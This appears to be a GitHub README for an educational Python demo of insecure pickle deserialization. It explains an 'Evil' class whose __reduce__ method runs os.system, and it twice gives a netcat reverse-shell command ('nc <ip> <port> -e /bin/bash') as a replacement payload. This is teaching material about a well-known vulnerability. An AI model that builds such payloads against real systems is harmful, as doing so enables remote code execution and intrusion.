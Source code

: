 
# **Insecure_Deserialization**

## **Overview**
`Insecure_Deserialization` is a simple Python program designed to demonstrate and explore the concept of insecure deserialization in a hands-on and practical way. The program includes a **serializer** and a **deserializer** to showcase how serialized objects can be manipulated and executed.

This program is primarily for educational purposes, aiming to provide insights into the risks and potential exploitation of insecure deserialization. Additionally, it can be adapted to execute a reverse shell by replacing the default command (`whoami`) with something like `nc <ip> <port> -e /bin/bash`.


## **Features**
- **Serialization (`serializer.py`)**:
  - Encodes an object containing a malicious payload into a serialized format.
  - Outputs the serialized payload in Base64 format.

- **Deserialization (`deserializer.py`)**:
  - Decodes and executes the serialized payload.

- **Custom Commands**:
  - Modify the default `whoami` command in the serializer to execute custom shell commands or even establish a reverse shell.


## **Usage**
### **1. Serialization**
Run the `serializer.py` script to generate a malicious payload:

```
python serializer.py
```

### **2. Deserialization**
Copy the serialized Base64 string and run the `deserializer.py` script. Paste the string as input when prompted:

```
python deserializer.py
```

## **Modifying the Payload**
The default payload executes the `whoami` command. To change the command:

1. Open `serializer.py`.
2. Modify the `return (os.system, ("whoami",))` line in the `Evil` class:
   
   ```
   return (os.system, ("<your_command>",))
   ```
3. For a reverse shell, you can use:
   
   ```
   return (os.system, ("nc <ip> <port> -e /bin/bash",))
   ```

## Example of use via terminal in Kali Linux (in this case, without venv):

<div align="center">
  <img src="https://github.com/user-attachments/assets/fda334c0-a684-496f-8185-c6ea203e89fc">
</div>

## Example output in pycharm (with venv activated):

<div align="center">
  <img src="https://github.com/user-attachments/assets/3a453f5d-11c9-42d5-b724-83ab5154dac2">
</div>

## Example of reverse shell in Kali Linux:

<div align="center">
  <img src="https://github.com/user-attachments/assets/8385e349-d221-4a99-856b-12fb09d2cf67">
</div>

<div align="center">
  <img src="https://github.com/user-attachments/assets/df18da93-c6ba-4737-a257-596d1f9abf6b">
</div>

## **Warnings**
- **Educational Purposes Only**: This program is intended to teach the concept of insecure deserialization and should not be used for malicious purposes.
- **Security Risks**: The deserialization of untrusted data is a critical security risk. Avoid using insecure serialization methods like `pickle` in production applications.
- **Test Environment**: Always use this program in a controlled and isolated environment, such as a virtual machine or sandbox.


## **How It Works**
1. The **`Evil` class** in `serializer.py` uses the `__reduce__` method to define a malicious command.
2. The `pickle.dumps` function serializes the `Evil` object.
3. The serialized payload is Base64-encoded and displayed.
4. In `deserializer.py`, the Base64-encoded payload is decoded and deserialized using `pickle.loads`, triggering the execution of the malicious command.


## **Disclaimer**
This program is for educational and testing purposes only. The author is not responsible for any misuse of this code.


## **Setting Up the Environment**

To ensure compatibility and proper setup, it is recommended to use a virtual environment (**venv**). Follow the steps below to create and activate your own virtual environment:

### **1. Create a Virtual Environment**
Run the following command to create a virtual environment in the project directory:

```
python -m venv venv
```

### **2. Activate the Virtual Environment**
Activate the virtual environment based on your operating system:

- **On Windows**:
  
  ```
  venv\Scripts\activate
  ```
- **On Linux/MacOS**:
  
  ```
  source venv/bin/activate
  ```

### **3. Deactivate the Virtual Environment**
When you're done working on the project, deactivate the virtual environment by running:

```
deactivate
```

---

### **Note on Virtual Environments**
The virtual environment (**venv**) is not included in this repository to reduce its size and avoid compatibility issues across different operating systems. Instead, you can generate it locally by following the steps above. 

